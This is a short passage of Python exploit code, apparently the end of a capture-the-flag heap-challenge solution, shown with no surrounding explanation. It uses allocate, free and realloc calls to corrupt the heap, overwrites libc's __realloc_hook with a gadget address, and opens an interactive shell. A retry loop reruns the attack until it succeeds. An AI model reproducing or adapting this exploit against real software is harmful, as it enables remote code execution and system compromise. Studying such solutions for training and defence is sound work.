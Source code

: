 ```py
    alloc (p, b'0', b'104', p64 (0) * 7 + p64 (0x31) + p64 (libc.symbols['__realloc_hook']))
    free (p, b'0')
    alloc (p, b'0', b'30', b'22')
    realloc (p, b'0', b'50', b'33')
    free (p, b'0')

    alloc (p, b'0', b'30', p64 (libc.address + 0x106ef8))
    realloc (p, b'0', b'0', b'')


    p.interactive()


# if __name__ == "__main__":
while True:
    try:  
        main()
    except:
        continue 
```